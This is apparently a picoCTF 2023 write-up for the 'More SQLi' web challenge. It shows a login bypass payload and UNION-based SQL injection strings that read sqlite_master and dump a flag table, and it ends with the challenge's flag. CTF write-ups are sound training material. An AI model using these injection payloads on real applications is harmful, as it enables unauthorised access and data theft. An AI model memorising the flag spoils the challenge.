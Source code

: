 # More SQLi
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023, sql

Description:
Can you find the flag on this website.  

Hints: 
1. SQLiLite
```
## Overview
![alt text](/picoCTF/Static/Images/More_SQLi/image1.png)  
* Try logging in with  
    * Username : hacker
    * Password : hacker

![alt text](/picoCTF/Static/Images/More_SQLi/image2.png)  
* It shows us the sqlite query    
## Solution
**Step1:** Exploit  
* Try logging in with:  
    * Username : hacker' or 1=1 -- -
    * Password : hacker  

![alt text](/picoCTF/Static/Images/More_SQLi/image3.png)  
* Log in successfully  
* In sqlite there is a special and internal table sqlite_master  
=> Use it for exploit  
* When we try entering `Algiers` in the search box, it will return us like this  

![alt text](/picoCTF/Static/Images/More_SQLi/image4.png)  
=> I guess the sqlite query will be of the form `SELECT City,Address,Phone From ... WHERE City = '...'`  
* Now we will try to enter `Algiers' union select 1,1,1 -- -`  

![alt text](/picoCTF/Static/Images/More_SQLi/image5.png)  
* Now we will replace the numbers 1 to read some necessary information  
`Algiers' union select 1,sql,1 from sqlite_master -- -`  

![alt text](/picoCTF/Static/Images/More_SQLi/image6.png)  
* Now use `Algiers' union select id,1,flag from more_table -- -` to read flags only
## Flag
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}`
